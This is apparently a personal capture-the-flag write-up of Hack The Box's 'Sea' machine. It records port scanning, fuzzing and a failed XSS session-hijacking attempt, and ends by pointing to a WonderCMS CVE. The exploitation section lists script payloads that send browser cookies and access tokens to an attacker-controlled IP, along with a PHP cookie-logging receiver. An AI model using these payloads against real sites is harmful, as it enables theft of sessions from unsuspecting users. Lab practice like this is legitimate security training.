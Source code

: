 ```yaml
---
tags:
  - Linux
  - HTB
  - Season6
  - XSS
  - Hijacking
creation date: 2024-08-16T14:50:00
CVEs: 10.129.13.15
URL:
---
```

## Information Gathering
### Nmap
`sudo nmap -sT -sV -sC -O -p- -T5 $IP  `

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### ffuf
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u http://sea.htb/FUZZ 
```

There's a "contact" link on the "How to Participate" page
Click that and you'll find a form

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.jab.htb"
```

nothing from ffuf...

#### Testing form contact.php
i tried a bunch of shit in burp- injecting crap into every parameter
i even tried fuzzing for parameters
i tried entering my IP as the website URL - got nothing...
finally decided to pop over to 0xBEN and see what his hint was... turns out i was on the right track with using my IP as the web URL........

![[Pasted image 20240816165316.png]]
now to figure out the expoit....
Finally... is a XSS session hijacking thing
time to review the HTB lesson https://enterprise.hackthebox.com/academy-lab/5343/5286/modules/103/1008

## Exploiting the XSS Vulnerability with Session Hijacking

JavaScript payloads to try:
```javascript
document.location='http://10.10.15.64:80/index.php?c='+document.cookie;
new Image().src='http://10.10.15.64:8000/index.php?c='+document.cookie;

<script>document.location='http://10.10.15.64:00/XSS/index.php?c='+document.cookie</script>

<script>document.location='http://10.10.15.64:00/XSS/index.php?c='+localStorage.getItem('access_token')</script>

<script>new Image().src="http://10.10.15.64:80/index.php?c="+document.cookie;</script>

<script>new Image().src="http://10.10.15.64:80/index.php?c="+localStorage.getItem('access_token');</script>
```

working payload script.js
```javascript

```

index.html code:
```html
<script src=http://10.10.15.64:80/script.js></script>
```

index.php script:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

host a php server and move all the files to it (index.php, index.html, script.js)
```session
mkdir /tmp/tmpserver 
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

![[Pasted image 20240816222201.png]]

**NOTHING IS WOKRING!!!!** 😢

## Time to look at Ben's Hints 😥
Basically he says keep looking at the website and it's code 😒
### Nikto

![[Pasted image 20240817083644.png]]

### Checking out the code

![[Pasted image 20240817083717.png]]

![[Pasted image 20240817083732.png]]

So its running WonderCMS.... which has a few CVEs 💰

https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413#file-cve-2023-41425-md
